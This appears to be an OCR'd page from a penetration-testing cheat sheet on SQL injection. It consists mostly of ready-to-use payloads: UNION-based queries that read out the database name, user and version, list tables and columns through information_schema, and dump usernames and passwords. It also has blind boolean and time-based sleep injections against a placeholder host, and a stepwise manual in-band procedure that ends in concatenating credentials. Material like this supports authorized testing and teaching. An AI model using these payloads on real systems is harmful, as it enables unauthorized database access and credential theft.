 ```c
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```c
' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database() -- //
```

```c
' UNION SELECT null, username, password, description, null FROM users -- //
```

### Blind SQL Injection (SQLi)

```c
http://<RHOST>/index.php?user=<USERNAME>' AND 1=1 -- //
```

```c
http://<RHOST>/index.php?user=<USERNAME>' AND IF (1=1, sleep(3),'false') -- //
```

### Manual SQL Injection

#### Skeleton Payload

```c
SELECT ? FROM ? WHERE ? LIKE '%amme%';    // control over amme
SELECT ? FROM ? WHERE ? LIKE '%'%';       // errors out because of the single quote
SELECT ? FROM ? WHERE ? LIKE '%';-- %';   // wildcard wich equals = ';--
SELECT ? FROM ? WHERE ? LIKE '%hammer' AND 1 = SLEEP(2);-- %';    // blind sql injection because of sleep is implemented in mysql
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT 1,2,3 FROM dual);-- %';    // UNION sticks together two columns and put it out; output queries to the screen is super bad!
```

- JOIN = merging columns 1 by 1
- UNION = appending

```c
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3) FROM information_schema.tables;-- %';    // information_schema.tables is an information table
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT COLUMN_NAME, 2,3 FROM information_schema.columns WHERE TABLE_NAME = 'users');-- %';
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT uLogin, uHash, uType FROM users);-- %';
```

### Manual In-Band SQL Injection

> https://<RHOST>/article?id=3

```c
'    # causes error printed out on the page
1 UNION SELECT 1
1 UNION SELECT 1,2
1 UNION SELECT 1,2,3    # received a message about the columns
0 UNION SELECT 1,2,3    # output from two tables
0 UNION SELECT 1,2,database()    # received database name
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DATABASE>'
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.columns WHERE table_name = '<TABLE>'
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM <TABLE>
```
